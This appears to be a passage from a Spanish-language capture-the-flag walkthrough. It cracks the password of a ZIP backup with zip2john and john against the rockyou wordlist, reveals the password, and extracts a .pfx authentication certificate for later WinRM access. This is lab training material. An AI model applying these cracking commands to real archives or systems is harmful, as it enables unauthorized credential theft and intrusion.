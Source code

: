 - Nos pide contraseña. 

```bash
❯ 7z x winrm_backup.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=es_MX.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i5-1035G1 CPU @ 1.00GHz (706E5),ASM,AES-NI)

Scanning the drive for archives:
1 file, 2611 bytes (3 KiB)

Extracting archive: winrm_backup.zip
--
Path = winrm_backup.zip
Type = zip
Physical Size = 2611

    
Enter password (will not be echoed):
```

- Vamos a usar `john` para poder ver la contraseña. 

```bash
❯ zip2john winrm_backup.zip > hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: 2b chk, TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683
```

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
1g 0:00:00:00 DONE (2023-07-26 12:27) 1.428g/s 4956Kp/s 4956Kc/s 4956KC/s surfroxy154..superview1024
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

- Ahora si podemos traernos el archivo.

```bash
❯ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx    
```

- Si recordamos nos dicen que `pfx` es una clave privada de un certificado así que necesitamos extraer ese certificado <https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file>.

